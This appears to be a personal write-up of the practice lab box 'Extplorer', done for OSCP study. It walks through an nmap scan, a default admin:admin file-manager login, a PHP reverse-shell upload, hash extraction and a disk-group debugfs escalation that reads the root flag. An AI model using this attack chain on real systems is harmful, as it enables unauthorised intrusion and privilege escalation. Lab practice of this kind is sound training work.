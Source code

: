 ```yaml
---
layout: post
title:  "Write Up: Proving Grounds Practice - Extplorer"
date:   2024-07-30 12:43:19 -0400
categories: oscp proving-grounds TJNull
---
```


192.168.194.16
me - 192.168.45.196


┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sC -p- -oA Extplorer 192.168.194.16 
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-29 20:17 EDT
Nmap scan report for 192.168.194.16
Host is up (0.024s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 209.63 seconds


==================================================================================================================

Loading the site running on port 80, it appears to be a wordpress start up script


CVE-2012-0782 - Multiple cross-site scripting (XSS) vulnerabilities in wp-admin/setup-config.php in the installation component in WordPress 3.3.1 and earlier allow remote attackers to inject arbitrary web script or HTML via the (1) dbhost, (2) dbname, or (3) uname parameter. NOTE: the vendor disputes the significance of this issue; also, it is unclear whether this specific XSS scenario has security relevance

So we are going to try and set up a local database and then we are going to enter that info into the script and see if that cann work some maagic!

Starting mysql service:
> sudo service mysql start

Log in as root 
> sudo mysql -u root

Create a junk database

> create database gobbler

issues connecting, this is beginning to feel like a rabbit hole, pausing this for now

====================================================================================================================

Looking through dirsearch results and I find 192.168.45.196/filemanager/ which looks promising

Able to log in as admin:admin

Might be able to do a php web shell upload and then run it to call back to my kali machine for initial foothold

Loaded the php-reverse-shell.php in trhough the interface and then accessed the file at http://192.168.194.16/php-reverse-shell.php and that gave me an initial foothold

========================================================================================================================

 python3 -c 'import pty; pty.spawn("/bin/bash")'
 
 I see a user named dora and add that to my users.txt file 
 
 Looking for bins with suid bit set and find a couple possiblities:
 
 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/at
/usr/bin/su
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd

No dice there so moving on.....

I get a password prompt from running sudo -l so no dice tehre...


I start digging around in the php files under /var/www/html/filemanager and find config/.htusers.php which appears to have hashes of passwords

array('dora','$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS','/var/www/html','http://localhost','1','','0',1),

I pop the hash into dora.hash and then run:

> hashcat -m 3200 dora.hash

That one faield with : No password candidates received in stdin mode, aborting


Looks like Dora is a part of the group Disk which we can exploit by the following:

https://vk9-sec.com/disk-group-privilege-escalation/?source=post_page-----9aaa071b5989--------------------------------




debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
cd /root

cat proof.txt